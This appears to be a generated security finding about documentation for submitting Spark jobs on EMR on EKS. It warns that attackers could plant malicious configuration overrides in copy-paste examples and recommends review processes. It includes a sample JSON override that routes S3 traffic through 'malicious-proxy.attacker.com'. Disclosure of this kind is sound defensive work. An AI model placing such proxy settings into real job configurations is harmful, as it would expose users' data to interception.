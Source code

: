 ### Vulnerability List:

- Vulnerability Name: **Code Injection via Malicious Spark Configuration Overrides**
- Description:
  - An attacker could inject subtly malicious configurations into the `configurationOverrides` section of code examples provided in the documentation.
  - If a user copy-pastes these examples and uses them to submit Spark jobs, the malicious configurations will be applied to their EMR on EKS environment.
  - Step-by-step trigger:
    1. Attacker modifies a markdown file (e.g., `/code/content/submit-applications/docs/spark/pyspark.md`) in the repository.
    2. Attacker injects a malicious configuration within a code block, for example, altering the `spark.hadoop.fs.s3.proxy.host` to redirect S3 traffic to an attacker-controlled proxy.
    3. A user, intending to follow best practices, copies the provided code example.
    4. User executes the modified `aws emr-containers start-job-run` command in their environment.
    5. The Spark job starts with the injected malicious configuration overrides.
- Impact:
  - By controlling configuration overrides, an attacker could potentially:
    - Redirect job logs to an external attacker-controlled server by manipulating monitoring configurations.
    - Modify security settings, such as disabling authentication or encryption features if such configurations were to be added to documentation.
    - Alter job behavior to exfiltrate data to an external location by manipulating spark configurations related to data output paths or external data access.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
  - None. The project is documentation and sample code, and does not inherently prevent copy-pasting of potentially malicious content.
- Missing Mitigations:
  - Implement a security review process for all documentation changes, especially code examples, to detect and prevent injection of malicious configurations.
  - Add a clear warning to the documentation advising users to carefully review and understand any code examples before using them in production, especially configurations that affect security settings or data handling.
- Preconditions:
  - An attacker needs to be able to modify the documentation files in the repository (e.g., via a successful Pull Request if not a repository admin).
  - A user must copy and paste the malicious code example from the documentation and execute it in their EMR on EKS environment.
- Source Code Analysis:
  - Vulnerability is not in the source code of the project itself, but in the content of the documentation files, specifically in the code examples provided in markdown files across the `/code/content/` directory.
  - Example of vulnerable code snippet in `/code/content/submit-applications/docs/spark/pyspark.md`:
    ```json
    "configurationOverrides": {
      "applicationConfiguration": [
        {
          "classification": "spark-defaults",
          "properties": {
            "spark.hadoop.fs.s3.proxy.host": "malicious-proxy.attacker.com",
            "spark.hadoop.fs.s3.proxy.port": "8080"
           }
        }
      ],
      "monitoringConfiguration": {
        "cloudWatchMonitoringConfiguration": {
          "logGroupName": "/emr-containers/jobs",
          "logStreamNamePrefix": "demo"
        },
        "s3MonitoringConfiguration": {
          "logUri": "s3://joblogs"
        }